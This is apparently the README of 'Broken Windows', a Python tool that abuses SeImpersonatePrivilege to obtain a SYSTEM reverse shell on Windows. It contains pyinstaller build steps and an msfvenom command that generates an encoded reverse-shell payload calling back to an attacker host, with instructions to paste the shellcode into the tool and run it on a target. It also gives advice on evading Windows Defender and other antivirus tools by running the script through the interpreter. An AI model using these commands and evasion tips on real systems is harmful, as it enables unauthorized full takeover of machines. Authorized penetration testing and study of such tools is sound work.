 # Broken Windows

## What is it?

It's a privilege escalation tool for Windows. It leverages the access token of the user who runs it to eventually pop a reverse shell as SYSTEM. The user's access token **must** have the SeImpersonatePrivilege in order for Broken Windows to work. 

It can be run through the Python interpreter if it's available on your target system, or it can be run as a standalone executable.

## How can I convert the Broken Windows.py file to an executable?

I promise, it's not too hard. Just follow these steps. ***NOTE: you must be using Python 3.6.8 or earlier for the executable to work on Windows 7. If your target is Windows 10, I have successfully tested Python 3.8.1 on it.***

```
pip install pyinstaller
```
```
pyinstaller --clean --onefile --console --add-data "/path/to/DLLs/*.*;." "/path/to/Broken Windows.py"
```

```Broken Windows.exe``` will be in the ```dist``` folder created by pyinstaller.

## How do I use it?

Generate a reverse shell with msfvenom. Remember to remove x64 from the command if your target system is 32 bit. If msfvenom fails to encode your reverse shell due to one of the bad bytes, run the command again.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=MACHINE_IP LPORT=PORT -f python -b "\x00,\xFF,\x0A,\x0D" -e x86/shikata_ga_nai -n 32
```

Copy the shellcode outputted by msfvenom and paste it into the ```BrokenWindows.py``` file, in the ```main``` function.

Then, simply execute ```Broken Windows.py``` or ```Broken Windows.exe``` on your target system:

![CMD](https://user-images.githubusercontent.com/16895391/129423983-a96c33b5-e0d9-458b-abee-128fb2ff0c5b.PNG)

![PYTHON](https://user-images.githubusercontent.com/16895391/129424058-05a8ed5d-4d8d-4e3b-9bac-c5ef72ffe6c9.PNG)

You (hopefully!) will receive a reverse shell as SYSTEM:

![SHELL](https://user-images.githubusercontent.com/16895391/129421207-727ed0e5-8175-4fb7-aa0a-0c1b3a77741c.PNG)

## Tips and Tricks

I have noticed that Windows Defender (and possibly other AVs) **do not** detect any threats if you use the python interpreter to run Broken Windows instead of the executable. If you use the executable, most AVs runtime analysis will detect the reverse shell.

## Why did you use Python for this?

### Good question.

To be honest with you, I have no idea. This project almost entirely uses win32 api functions that are accessed through ctypes. It would make more sense to just use C or C++ to do this, but I guess I just wanted to see if it could be done with ctypes?

